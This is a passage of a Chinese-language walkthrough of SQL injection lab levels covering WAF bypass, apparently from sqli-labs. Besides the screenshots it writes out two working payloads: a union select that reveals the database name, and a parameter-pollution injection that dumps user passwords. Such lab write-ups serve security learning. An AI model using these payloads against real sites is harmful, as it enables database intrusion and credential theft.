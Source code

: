 ![image](https://user-images.githubusercontent.com/76896357/115104963-ac4f9080-9f8e-11eb-8055-55137a6d224f.png)


有回显，查库

```
?id=-1' union select 1,2,database() --+
```
![image](https://user-images.githubusercontent.com/76896357/115105020-dc972f00-9f8e-11eb-9ad8-bbd58b258a10.png)

* 查表

![image](https://user-images.githubusercontent.com/76896357/115105154-aad29800-9f8f-11eb-9e98-382bd4cd164c.png)

* 查列

![image](https://user-images.githubusercontent.com/76896357/115105286-8e832b00-9f90-11eb-9e8c-987c7c99d821.png)


* 查字段

![image](https://user-images.githubusercontent.com/76896357/115105279-81fed280-9f90-11eb-8cfa-6f26b93fd36b.png)

想了解waf可以去专门了解一下

## 30. get——blind waf

![image](https://user-images.githubusercontent.com/76896357/115105461-b030e200-9f91-11eb-9ce5-bd577456cc69.png)

果然和上一题一样有点水

* 查表

![image](https://user-images.githubusercontent.com/76896357/115105488-e8d0bb80-9f91-11eb-98ef-7e0380854daf.png)

* 查字段

![image](https://user-images.githubusercontent.com/76896357/115105531-203f6800-9f92-11eb-80df-a544bbad595d.png)

好家伙这里就不行了，看样子并不是很水
```
?id=1&id=-1" union select 1,2,group_concat(password) from security.users --+
```

![image](https://user-images.githubusercontent.com/76896357/115107513-e07e7d80-9f9d-11eb-9453-dc87e892482a.png)


## 31. waf

* 看一下闭合方式

![image](https://user-images.githubusercontent.com/76896357/115106645-9c3cae80-9f98-11eb-925f-3f272c7b3f56.png)

* 查看有没有回显
